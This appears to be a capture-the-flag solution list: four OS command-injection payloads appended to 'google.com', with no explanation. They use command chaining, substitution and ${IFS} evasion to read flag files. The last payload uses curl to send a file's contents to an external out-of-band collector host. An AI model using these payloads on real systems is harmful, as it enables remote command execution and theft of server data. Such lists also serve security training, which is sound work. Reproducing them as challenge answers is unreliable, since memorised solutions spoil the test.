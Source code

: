 0-flag: google.com; cat /0-flag.txt
1-flag: google.com$(cat /etc/1-flag.txt)
2-flag: google.com;cat${IFS}/*/*2-flag.txt*
3-flag: google.com; curl http://wbymxygewoyuyyohmygyzsbpmd2whz4lv.oast.fun/ --data "$(cat /var/www/3-flag.txt)"